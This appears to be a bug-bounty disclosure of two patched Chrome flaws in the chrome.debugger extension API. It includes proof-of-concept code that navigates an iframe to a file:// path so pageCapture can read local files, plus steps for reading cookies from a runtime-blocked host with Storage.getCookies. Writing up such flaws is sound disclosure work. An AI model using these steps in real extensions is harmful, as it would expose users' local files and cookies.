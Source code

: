 ```yaml
---
title: Abusing the chrome.debugger extension API
---
```


# chrome.debugger 'Page.navigate' could navigate iframes to file:// when not enabled (Awarded $3000)

Extensions with both `pageCapture` and `debugger` permissions could read local file contents.
This is because its possible to use `Page.navigate` to navigate an iframe to `file://` when "Allow access to file URLs" is disabled exposing the files contents to the `pageCapture` API.

```js
chrome.debugger.attach({tabId: <TARGET>}, '1.3', console.log);
chrome.debugger.sendCommand({tabId: <TARGET>}, 'Page.navigate', {frameId: <FRAME ID AS SEEN FROM EVENTS), url: 'file:///d:/demo.txt'}, console.log);
chrome.pageCapture.saveAsMHTML({tabId: 800972627}, console.log);
```

This issue was fixed in <https://issues.chromium.org/40060173>

# chrome.debugger API bypasses the runtime_blocked_hosts cookie protection (Awarded $3000)

Browser extensions where able to get cookies from a runtime blocked host using the chrome.debugger API via `Storage.getCookies` <https://chromedevtools.github.io/devtools-protocol/tot/Storage/#method-getCookies> there may be other APIs that leak information.

## Setup

- Add host to runtime_blocked_hosts <https://chromeenterprise.google/policies/?policy=ExtensionSettings>
- For windows 10 using registry at `HKEY_CURRENT_USER\SOFTWARE\Policies\Google\Chrome` create string with name `ExtensionSettings` and content of `{ "*": { "runtime_blocked_hosts": [ "*://example.org" ] } }`
- Policy should be listed at `chrome://policy/` may need to reload.
- Create cookie at <https://example.org> like `document.cookie = 'foo=foo';`

## Exploit

Using a browser extension with the debugger permission.

- Get `tabId` like with `chrome.tabs.query({active: true});`
- Attach to a tab with `await chrome.debugger.attach(target, '1.3');`
- Run `Storage.getCookies` with `await chrome.debugger.sendCommand({tabId: <tabId>}, 'Storage.getCookies');` it should contain the cookie from the runtime blocked host.
